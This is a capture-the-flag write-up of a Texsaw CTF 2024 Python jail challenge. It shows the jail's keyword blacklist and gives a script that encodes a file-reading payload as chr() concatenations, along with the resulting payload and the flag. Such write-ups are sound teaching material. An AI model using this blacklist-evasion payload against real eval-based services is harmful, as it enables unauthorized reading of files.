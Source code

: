 ```yaml
---
layout: writeup
category: Texsaw-CTF-2024
chall_description:
points: 200
solves: -1
tags: Texsaw-CTF-2024 misc misc/pyjail
date: 2024-3-25
comments: false
---
```


You've been locked in the worst prison imaginable: one without any meatballs! To escape the prison, you must read the flag using Python!  

`nc 3.23.56.243 9011`  

---

After playing around with it a bit, and getting various errors, here's what I got:  

```
blacklist: import, dir, print, open, ', ", os, sys, _, eval, exec, =, [, ]

prohibited actions:
    function calls without parameters, i.e. '()'

code fragments:
    inp = eval(inp)
    inp = inp.replace("print", "stdout.write")
    out = exec(inp)
```

The code fragments are the most important here. Notably, the input is evaluated first before it is executed... let's test if a function like chr() works.  

Turns out, it does! That means we can just write every character as a chr(some number), which will allows us to print the file. Here's a little script that helps us write our payload:  

```py
payload = 'print(open("flag.txt","r").read())'
for i in payload:
    print(f'chr({ord(i)})+', end='')
```

And here's our final payload:  

```
chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(34)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(34)+chr(44)+chr(34)+chr(114)+chr(34)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)+chr(41)
```

    texsaw{SP4P3GGY_4ND_M34TBA11S_aa17c6d30ee3942d}
